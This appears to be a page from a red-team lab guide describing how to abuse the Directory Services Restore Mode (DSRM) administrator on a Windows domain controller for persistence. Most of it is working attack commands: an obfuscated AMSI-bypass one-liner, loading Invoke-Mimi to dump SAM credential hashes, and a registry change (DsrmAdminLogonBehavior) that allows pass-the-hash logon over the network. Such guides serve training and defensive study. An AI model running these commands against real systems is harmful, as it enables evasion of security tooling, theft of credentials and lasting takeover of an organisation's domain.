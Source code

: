 # 👽 Abuse the DSRM credential for persistence

{% hint style="info" %}
### What is Directory Services Restore Mode (DSRM)?

Directory Services Restore Mode (DSRM) is a Safe Mode [boot](https://www.techtarget.com/searchwindowsserver/definition/boot) option for [Windows Server](https://www.techtarget.com/searchwindowsserver/definition/Microsoft-Windows-Server-OS-operating-system) [domain controllers](https://www.techtarget.com/searchwindowsserver/definition/domain-controller). DSRM enables an administrator to repair, recover or restore an Active Directory ([AD](https://www.techtarget.com/searchwindowsserver/definition/Active-Directory)) database. Restarting a [domain](https://www.techtarget.com/whatis/definition/domain) controller in DSRM takes it offline so it functions only as a regular server.
{% endhint %}

We can persist with administrative access on the DC once we have Domain Admin privileges by abusing the DSRM administrator. With the domain admin privileges obtained earlier, run the following commands on the DC to open a PowerShell remoting session. As always, remember that we could use other tools like SafetyKatz, BetterSafetyKatz

```
$sess = New-PSSession dcorp-dc  
Enter-PSSession -Session $sess  
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
exit 
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to laod Invoke-Mimi on the session, let's run this from the local machine

```
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
```

Then once it's done we'll enter the session and run the lsadump::lsa command:

```
Enter-PSSession -Session $sess
Invoke-Mimi -Command '"token::elevate" "lsadump::sam"'
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The DSRM administrator is not allowed to logon to the DC from network. So we need to change the logon behavior for the account by modifying registry on the DC. We can do this as follows:

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```

Now from our local system we can just pass the hash for the DSRM administrator:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now list all the shares of the domain controller:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
